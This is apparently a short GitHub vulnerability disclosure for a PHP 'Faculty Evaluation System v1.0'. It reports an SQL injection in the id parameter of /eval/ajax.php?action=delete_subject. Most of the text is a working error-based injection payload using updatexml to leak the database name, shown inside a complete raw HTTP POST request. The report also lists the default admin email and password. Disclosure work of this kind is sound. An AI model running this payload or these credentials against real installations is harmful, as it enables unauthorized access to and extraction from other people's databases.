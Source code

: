 # Faculty Evaluation System v1.0 by oretnom23 has SQL injection

Admin account password： admin@admin.com/admin123
 
BUG_Author: oV

vendors: https://www.sourcecodester.com/php/14635/faculty-evaluation-system-using-phpmysqli-source-code.html

The program is built using the xmapp-php8.1 version

Vulnerability File: /eval/ajax.php?action=delete_subject

Vulnerability location: /eval/ajax.php?action=delete_subject, id

dbname =evaluation_db

[+] Payload: id=2 and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+ // Leak place ---> id

```sql
POST /eval/ajax.php?action=delete_subject HTTP/1.1
Host: 192.168.1.88
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Referer: http://192.168.1.88/eval/index.php?page=subject_list
Content-Length: 64
Cookie: PHPSESSID=lrrse02i69soj9l3lnarhnd9ck
Connection: close

id=2 and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+
```

![image](https://user-images.githubusercontent.com/54017627/233828036-e84eaf70-200d-4ccf-9d6f-fa68fca5b725.png)
